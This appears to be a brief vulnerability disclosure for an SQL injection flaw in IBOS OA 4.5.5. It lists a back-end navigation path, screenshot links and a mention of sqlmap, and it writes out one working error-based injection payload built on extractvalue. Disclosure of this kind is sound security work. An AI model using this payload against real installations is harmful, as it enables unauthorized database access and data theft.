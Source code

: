 SQL injection vulnerability in ibos oa v4.5.5

official website： http://www.ibos.com.cn/

version：4.5.5 

Log in to the background. General Office => Information Bulletin => Release Information => Delete Information => Delete Log Capture Error Injection Successful

![wps1](https://github.com/xiaosed/cve/assets/84080097/c33504f6-da94-4f41-a7e5-9561ea01085b)
![wps3](https://github.com/xiaosed/cve/assets/84080097/e89e0bc9-b068-46e2-ada2-d6f374472fb7)
![wps4](https://github.com/xiaosed/cve/assets/84080097/0d9489e9-4657-44a7-8c4b-4335fdbb159d)


Payload：articleids=extractvalue(1,concat(char(126),md5(1404461947)))

Sqlmap：

![wps5](https://github.com/xiaosed/cve/assets/84080097/541a9259-e4b5-42a5-8534-e3f7a6877069)
